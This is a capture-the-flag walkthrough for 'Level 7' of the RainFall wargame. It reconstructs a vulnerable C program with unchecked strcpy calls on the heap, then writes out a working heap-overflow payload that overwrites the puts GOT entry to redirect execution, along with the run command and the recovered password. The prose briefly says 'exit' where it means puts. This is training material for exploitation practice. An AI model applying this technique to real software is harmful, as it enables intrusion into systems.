 # Level 7

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <string.h>

struct s {
    int id;
    void *ptr;
};

char c[80] = "";

void m()
{
    printf("%s - %d\n", c, time(0));
}

int main(int argc, char **argv)
{
    struct s *buffer1;
    struct s *buffer2;

    buffer1 = malloc(8);
    buffer1->id = 1;
    buffer1->ptr = malloc(8);

    buffer2 = malloc(8);
    buffer2->id = 2;
    buffer2->ptr = malloc(8);

    strcpy(buffer1->ptr, argv[1]);
    strcpy(buffer2->ptr, argv[2]);

    fgets(c, 68, fopen("/home/user/level8/.pass", "r"));
    puts("~~");
    return 0;
}
```

Let's focus on the `main` function. It reads input from the command line then copies it to our buffer using `strcpy`, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes copied.

Since we're interacting with the heap here we won't have to worry about the stack layout, in this case we'll have to overflow the first buffer until we reach `buffer2->ptr` and write the address of the GOT entry of `puts` to it. Then thanks to the second `strcpy` we'll be able to overwrite the value that the GOT entry address for exit points to with the address of the `m` function.

Yet again this exercise utilizes PLT and GOT, so please refer to the [level5 walkthrough](../level5/walkthrough.md) for a detailed explanation of how it works.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
$ ltrace ./level7 arg1 arg2
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8) = 0x0804a008  #buffer1 = malloc(8);
malloc(8) = 0x0804a018  #buffer1->ptr = malloc(8);
malloc(8) = 0x0804a028  #buffer2 = malloc(8);
malloc(8) = 0x0804a038  #buffer2->ptr = malloc(8);
strcpy(0x0804a018, "arg1") = 0x0804a018
strcpy(0x0804a038, "arg2") = 0x0804a038
[...]
```

<!-- Since we want to write to `buffer2->ptr`, we need to overflow `buffer1->ptr` and then `buffer2->id` to reach it. So we can just do some math to find the offset needed to reach `buffer2->ptr`:
- Offset calculation: The difference between the start of the first `strcpy` destination (`0x0804a018`) and the address of `buffer2` (`0x0804a028`) is 16 bytes.
- `buffer2->id` is 4 bytes after the start of `buffer2` (as it's an `int`).
- Total offset for overflow: `16 (distance to buffer2) + 4 (to reach buffer2->id) = 20`. -->

Using gdb we find that that the address of the `m` function is `0x080484f4` and that the address of the GOT entry for `puts` is `0x8049928`.

We can then craft our payload:
```
arg1 = padding + address of the GOT entry for puts
arg2 = address of m

arg1 = "A"*20 + "\x08\x04\x99\x28"
arg2 = "\x08\x04\x84\xf4"
```

Let's run our payload:
```bash
level7@RainFall:~$ ./level7 `python -c 'print("A"*20 + "\x08\x04\x99\x28"[::-1])'` `python -c 'print("\x08\x04\x84\xf4"[::-1])'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1702752190
```

We are now level8! Let's move on to the next level.
